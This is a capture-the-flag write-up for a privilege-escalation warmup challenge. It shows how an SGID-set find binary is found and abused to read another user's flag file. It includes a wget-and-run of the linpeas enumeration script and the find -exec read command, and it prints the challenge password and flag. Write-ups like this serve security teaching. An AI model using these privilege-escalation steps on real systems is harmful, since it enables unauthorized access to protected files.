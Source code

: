 +++
title = "Finder's Fee"
description = "You gotta make sure the people who find stuff for you are rewarded well!\n\nEscalate your privileges and uncover the flag.txt in the finder user's home directory.\n\nPress the Start button in the top-right to begin this challenge.\nConnect with:\n\n# Password is \"userpass\"\nssh -p 30668 user@challenge.ctf.games"
authors = ["mango", "Tyr"]
date = 2024-09-30

[taxonomies]
categories = ["warmups"]
+++

## Description

You gotta make sure the people who find stuff for you are rewarded well!

Escalate your privileges and uncover the flag.txt in the finder user's home directory.

Press the Start button in the top-right to begin this challenge.

----

First, we need to connect to the machine via SSH with the following command:

```bash
# Password is "userpass"
ssh -p <port> user@challenge.ctf.games
```

At this point, we are connected as `user`, and we know the `flag.txt` file is located in the `finder` user's home directory (`/home/finder/flag.txt`).
It appears that we can use `wget`, so let's download `linpeas.sh` to help identify potential privilege escalation vectors:

```bash
wget -q https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

However, the machine crashes consistently when running `linpeas.sh`. To avoid this, we can disable some of the more resource-intensive checks and try again:

```bash
./linpeas.sh -o interesting_files,users_information,software_information,interesting_perms_files
```

Upon running this, we found a privilege escalation opportunity involving the `find` command, which has the `SGID` bit set with the user `finder`.

![](https://i.imgur.com/bSv4Edv.png)

Using this, we can read the `flag.txt` file with the following command:

```bash
find /home/finder/flag.txt -exec cat {} \;
```

The flag is: `flag{5da1de289823cfc200adf91d6536d914}`